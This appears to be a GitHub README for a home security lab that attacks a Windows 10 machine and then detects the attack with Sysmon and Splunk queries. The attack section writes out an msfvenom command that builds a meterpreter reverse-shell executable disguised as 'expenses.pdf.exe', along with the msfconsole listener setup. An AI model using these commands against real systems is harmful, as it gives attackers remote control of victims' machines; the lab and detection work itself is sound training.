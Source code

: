 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview
This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used
- Kali Linux (attacker machine)
- Windows 10 (victim machine)
- Splunk
- Sysmon

## Attack Simulation
Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Metasploit framework (`msfvenom`, `msfconsole`)

### Steps taken:
1. Find an open port using nmap -A -Pn <Victim IP address>
2. Generate the payload using:
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
 -f exe -o expenses.pdf.exe`
3. Deliver the payload to the victim machine
4. Establish a Meterpreter session via msfconsole
   To receive the reverse shell, Metasplit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

## Detection
Using EventCode=3 detected a unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`. \
Looking at more log evidence using the query of: \
 `index=sysmon EventCode=3 <attacker IP address>` \
A log entry is found where: \
`DestinationIp: <attacker IP address>`\
`sourceIp: <victim IP address>`\
`Image: C:\Users\<User>\Downloads\expenses.pdf.exe`\
Thus indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel\
Using the query of : `index=sysmon EventCode=1 expenses.pdf.exe a Log indicating cmd.exe was ccreated from the parent process of `expenses.pdf.exe`\
using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user
